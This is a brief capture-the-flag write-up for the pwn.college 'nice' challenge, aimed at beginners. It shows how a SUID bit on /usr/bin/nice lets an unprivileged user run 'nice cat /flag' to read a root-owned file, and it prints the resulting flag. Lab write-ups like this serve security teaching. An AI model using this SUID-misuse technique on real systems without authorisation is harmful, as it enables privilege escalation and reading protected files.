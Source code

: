# Challenge Name: nice
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/nice`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/nice
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/nice
```

-The `s` in `-rws` indicates it's a SUID binary.
-`nice` runs with **root privileges**.

## 🚀 Exploitation

The `nice`  command can run other commands — its purpose is to run them with a modified CPU scheduling priority (called "niceness").


```bash
nice cat /flag
```

Output:
```
pwn.college{o2QCFMwsv3Urs8fxe3gzD1JLHuL.dljNxwSM0IzMyEzW}
```

